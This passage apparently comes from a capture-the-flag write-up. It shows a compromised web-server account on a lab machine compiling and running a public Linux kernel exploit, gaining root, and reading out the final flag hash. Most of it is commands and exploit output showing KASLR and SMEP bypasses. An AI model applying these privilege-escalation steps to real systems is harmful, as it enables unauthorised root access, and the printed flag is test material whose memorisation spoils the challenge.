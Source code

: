 Exploit brought over to server, check who we are currently:

```text
www-data@skynet:/tmp$ whoami
whoami
www-data
www-data@skynet:/tmp$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Compile and run the exploit:

```text
www-data@skynet:/tmp$ gcc 43418.c -o pwn
gcc 43418.c -o pwn
www-data@skynet:/tmp$ ./pwn
./pwn
[.] starting
[.] checking distro and kernel versions
[.] kernel version '4.8.0-58-generic' detected
[~] done, versions looks good
[.] checking SMEP and SMAP
[~] done, looks good
[.] setting up namespace sandbox
[~] done, namespace sandbox set up
[.] KASLR bypass enabled, getting kernel addr
[~] done, kernel text:   ffffffffab600000
[.] commit_creds:        ffffffffab6a5d20
[.] prepare_kernel_cred: ffffffffab6a6110
[.] SMEP bypass enabled, mmapping fake stack
[~] done, fake stack mmapped
[.] executing payload ffffffffab617c55
[~] done, should be root now
[.] checking if we got root
[+] got r00t ^_^
```

It worked, confirm we are now root:

```text
root@skynet:/tmp# id
id
uid=0(root) gid=0(root) groups=0(root)
root@skynet:/tmp# whoami
whoami
root
```

We've made it to root, so we can get the final flag:

```text
root@skynet:/tmp# cat /root/root.txt
cat /root/root.txt
3f0372db24753accc7179a282cd6a949
```

All done. See you next time.
